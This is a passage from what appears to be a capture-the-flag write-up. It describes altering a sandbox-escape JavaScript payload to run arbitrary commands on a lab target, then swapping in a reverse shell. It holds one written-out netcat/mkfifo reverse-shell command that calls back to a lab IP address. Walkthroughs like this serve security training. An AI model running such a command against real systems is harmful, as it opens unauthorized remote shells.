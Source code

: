 {% hint style="info" %}
From the original payload i added a utf-8's decode from the first element of the array to make a way that the payload will execute the command in the sandbox and then print the correct output in the page.
{% endhint %}

Executing this payload we can execute arbitrary command to the target machine.

<figure><img src="../../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

Now change the cmd var to a reverse shell and execute the js script.

{% code overflow="wrap" %}
```javascript
cmd = "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.49 9009 >/tmp/f"
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>
